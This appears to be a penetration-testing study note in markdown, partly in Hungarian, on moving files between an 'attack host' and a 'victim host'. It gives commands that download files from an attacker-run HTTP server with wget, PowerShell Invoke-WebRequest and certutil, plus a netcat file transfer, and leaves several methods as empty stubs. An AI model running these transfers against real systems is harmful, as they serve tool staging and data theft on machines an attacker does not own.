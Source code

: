 # TODO
* htba file transfers modult nezzuk meg
* ejpt repobol nezzuk meg a methodokat
# Basic file transfer methods
## Base64 encode - decode - copy/paste between machines
* Base64 encoding data on source machine
* Copy-pasting base64 string from source machine to dest machine
* Base64 decoding on destination machine (+ redirect output to file)
## HTTP file transfer
### From Attack host to Victim host (Linux)
* python web server + wget
<pre>
<b># attack machine</b>
$ python -m http.server 8000
<b># victim machine</b>
$ wget http://10.10.10.2:8000/file.txt
</pre>
### From Attack host to Victim host (Windows)
* python web server + powershell iwr
<pre>
<b># attack machine</b>
$ python -m http.server 8000
<b># victim machine</b>
PS> Invoke-WebRequest -Uri http://10.10.10.2:8000/file.txt -OutFile .\file.txt .\file.txt
</pre>
* python web server + certutil
<pre>
<b># attack machine</b>
$ python -m http.server 8000
<b># victim machine</b>
C:\> certutil -urlcache -f http://10.10.10.2:8000/file.txt > file.txt
</pre>
### From Victim host (Linux) to Attack host
* python web server + wget
### From Victim host (Windows) to Attack host
* http file upload server on attack host
* http post request with the file from victim host
* detailed in "http_file_upload_server.md"
### Alternatives for tools
* alternatives for python: python3, python2.7, php, perl, ruby, ...
* alternatives for wget: curl, powershell iwr, certutil
## Netcat redirect file transfer
<pre>
<b># victim host</b>
$ nc -nvlp 1234 > file.zip

<b># attack host</b>
C:\Users\Public\> nc.exe -w 3 -nv 10.10.16.2 1234 < file.zip
</pre>
## SMB file transfer
* itt jol le van irva az alja fele
  * van plusz lepes is (net view vagy valami hasonlo, amivel csekkolhato a gep, lehet hogy kell ez is a network discovery-hez...)
  * https://vk9-sec.com/microsoft-windows-server-2003-sp2-tcp-ip-ioctl-privilege-escalation-ms14-070-cve-2014-4076/
## SCP file transfer
## Meterpreter file transfer
## Other solutions
* RDP mounted drive
* HTTP file upload server hosted on attack machine + power shell client script
* Netcat pipes + redirect
* FTP
